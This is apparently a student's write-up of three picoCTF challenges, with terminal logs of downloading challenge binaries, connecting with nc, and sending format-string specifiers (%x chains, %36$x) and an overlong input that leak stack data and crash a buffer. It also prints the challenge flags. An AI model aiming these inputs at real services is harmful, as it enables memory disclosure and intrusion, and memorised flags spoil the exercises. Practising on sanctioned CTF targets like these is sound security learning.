 ## FORMAT STRING 0

Thought Process - 
Here I just did wget to get the two given files and then played the program with the given detail and did trial and error 
and captured the flag 

FLAG ---
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}

CODE --- 
root@DESKTOP-DCDALLM:~# wget https://artifacts.picoctf.net/c_mimas/68/format-string-0
--2024-12-23 15:30:25--  https://artifacts.picoctf.net/c_mimas/68/format-string-0
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 2600:9000:2241:ea00:16:5ec5:2840:93a1, 2600:9000:2241:fe00:16:5ec5:2840:93a1, 2600:9000:2241:5e00:16:5ec5:2840:93a1, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|2600:9000:2241:ea00:16:5ec5:2840:93a1|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16632 (16K) [application/octet-stream]
Saving to: ‘format-string-0’

format-string-0               100%[=================================================>]  16.24K  55.9KB/s    in 0.3s

2024-12-23 15:30:30 (55.9 KB/s) - ‘format-string-0’ saved [16632/16632]

root@DESKTOP-DCDALLM:~# wget https://artifacts.picoctf.net/c_mimas/68/format-string-0.c
--2024-12-23 15:30:48--  https://artifacts.picoctf.net/c_mimas/68/format-string-0.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 2600:9000:2241:c400:16:5ec5:2840:93a1, 2600:9000:2241:c000:16:5ec5:2840:93a1, 2600:9000:2241:8a00:16:5ec5:2840:93a1, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|2600:9000:2241:c400:16:5ec5:2840:93a1|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2784 (2.7K) [application/octet-stream]
Saving to: ‘format-string-0.c’

format-string-0.c             100%[=================================================>]   2.72K  --.-KB/s    in 0s

2024-12-23 15:30:49 (26.9 MB/s) - ‘format-string-0.c’ saved [2784/2784]

root@DESKTOP-DCDALLM:~# vi format-string-0.c
root@DESKTOP-DCDALLM:~# nc mimas.picoctf.net 61277
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!

Bac0n_D3luxe
root@DESKTOP-DCDALLM:~# nc mimas.picoctf.net 61277
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)


## BUFFER OVERFLOW 0

Thought Process - 
So here they have given a source and program. I did wget to both of em. After that on viewing the code in vuln.c using "vi vuln.c", I found out that the prg was givin return values to those inputs which have less
16 characters in it. So If we were to overflow the input by exceeding the limit, the program would crash and we will get out flag 

FLAG---picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

CODE ---
root@DESKTOP-DCDALLM:~# vi vuln.c
root@DESKTOP-DCDALLM:~# nc saturn.picoctf.net 60564
Input: flag
The program will exit now


okay
root@DESKTOP-DCDALLM:~# vi vuln.c
root@DESKTOP-DCDALLM:~# man gets
No manual entry for gets
root@DESKTOP-DCDALLM:~# nc saturn.picoctf.net 60564
Input: man gets
The program will exit now

f
root@DESKTOP-DCDALLM:~# nc saturn.picoctf.net 60564
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

## FLAG LEAK 

Thought Process - 
So here I ran the given source and then made it tell me the story in hex and then I started trying to find the flag in the hex characters that it gave by converting it using an hex converter and then I saw that the 
entire was flag was not told, then I saw the position of it and using that I made it say the hex characters from that position and then I saw that the flag was reversedin words, hence I reversed it again to get the flag

FLAG --- picoCTF{l34k1ng_Fl4g_0ff_St4ck_95f60617}

CODE ---
root@DESKTOP-DCDALLM:~# wget https://artifacts.picoctf.net/c/92/vuln
--2024-12-23 16:26:28--  https://artifacts.picoctf.net/c/92/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 2600:9000:2241:5a00:16:5ec5:2840:93a1, 2600:9000:2241:7800:16:5ec5:2840:93a1, 2600:9000:2241:7200:16:5ec5:2840:93a1, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|2600:9000:2241:5a00:16:5ec5:2840:93a1|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15876 (16K) [application/octet-stream]
Saving to: ‘vuln.3’

vuln.3                        100%[=================================================>]  15.50K  --.-KB/s    in 0.001s

2024-12-23 16:26:29 (14.0 MB/s) - ‘vuln.3’ saved [15876/15876]

root@DESKTOP-DCDALLM:~# wget https://artifacts.picoctf.net/c/92/vuln.c
--2024-12-23 16:26:38--  https://artifacts.picoctf.net/c/92/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 2600:9000:2241:6200:16:5ec5:2840:93a1, 2600:9000:2241:9400:16:5ec5:2840:93a1, 2600:9000:2241:800:16:5ec5:2840:93a1, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|2600:9000:2241:6200:16:5ec5:2840:93a1|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 947 [application/octet-stream]
Saving to: ‘vuln.c.3’

vuln.c.3                      100%[=================================================>]     947  --.-KB/s    in 0s

2024-12-23 16:26:39 (6.22 MB/s) - ‘vuln.c.3’ saved [947/947]

root@DESKTOP-DCDALLM:~# vi vuln.c.3
root@DESKTOP-DCDALLM:~# nc saturn.picoctf.net 58532
Tell me a story and then I'll tell you one >> %x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:%x:
Here's a story -
ffe681d0:ffe681f0:8049346:253a7825:%x:78253a78:3a78253a:3a782525:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:253a7825:78253a78:3a78253a:3a7825:6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:


root@DESKTOP-DCDALLM:~# %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:
-bash: fg: %36:%37:%38:%39:%40:%41:%42:%43:%44:%45:: no such job
root@DESKTOP-DCDALLM:~# nc saturn.picoctf.net 58532
Tell me a story and then I'll tell you one >> %36$x:%37$x:%38$x:%39$x:%40$x:%41$x:%42$x:%43$x:%44$x:%45$x:
Here's a story -
6f636970:7b465443:6b34334c:5f676e31:67346c46:6666305f:3474535f:395f6b63:30366635:7d373136:

